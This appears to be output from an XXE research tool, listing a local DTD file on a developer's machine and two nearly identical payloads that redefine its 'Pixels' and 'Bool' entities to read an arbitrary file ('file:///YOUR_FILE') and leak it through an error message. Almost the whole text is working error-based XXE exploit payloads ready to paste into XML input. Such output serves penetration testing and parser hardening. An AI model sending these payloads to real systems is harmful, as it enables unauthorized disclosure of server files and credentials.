  --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/jspxml.dtd`

**Injectable entity:** `Pixels`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/jspxml.dtd">

    <!ENTITY % Pixels '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/jspxml.dtd`

**Injectable entity:** `Bool`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/jspxml.dtd">

    <!ENTITY % Bool '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/jspxml.dtd`
